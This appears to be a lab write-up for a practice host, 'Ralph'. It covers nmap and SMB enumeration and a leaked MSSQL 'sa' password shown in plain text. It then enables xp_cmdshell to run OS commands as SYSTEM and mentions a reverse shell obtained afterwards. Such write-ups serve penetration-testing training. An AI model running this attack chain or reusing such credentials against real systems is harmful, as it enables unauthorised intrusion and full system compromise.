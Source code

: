 # Ralph (10.11.1.31)
****
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.31
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest are the **HTTP** service running on port 80, the **SMB** service running on port **139** and **445**, and lastly, the **mssql** service running on port **1433**
```
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack Windows Server 2016
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server
```

3. We did further enumeration on port **445** and we noticed an uncommon shared folder named `wwwroot`. 

```
nmap --script=smb-enum* 10.11.1.31 -p445 -Pn
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
...
|   \\10.11.1.31\wwwroot: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ    
```

4. We've connected to `wwwroot` folder we and discovered an interesting file named `login-off.asp`.
```
smbclient //10.11.1.31/wwwroot
Password for [WORKGROUP\chris]:
Try "help" to get a list of possible commands.
smb: \> ls
...
  login-off.asp       A   1369  Fri Nov  1 21:18:45 2019
  login-off.asp.txt   A   1369  Fri Nov  1 21:18:45 2019
...  
```

> [!info] 
>  A [text version](http://10.11.1.31/login-off.asp.txt) of this file is also accessible through the web.  

5. `login-off.asp` contains credentials for **MS SQL** - the database used by the web app.
   
```
Username: sa
Password: poiuytrewq
```

## Exploitation
1. We established a connection to the **MS SQL Server** using the retrieved credentials and an SQL client named `dbeaver`
![[ralph-dbeaver.png]]

2. Using `dbeaver` SQL Editor, we've executed the following commands one by one
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
EXEC xp_cmdshell 'whoami'
```

3. After executing the command `EXEC xp_cmdshell 'whoami'`, we are able to confirm that we can execute OS commands and it is running on the context of the user `nt authority\system`
![[ralph-whoami.png]]

## Post-exploitation
1. We've estabslihed a reversed shell and was able to read the flags
![[ralph-proof-network.png]]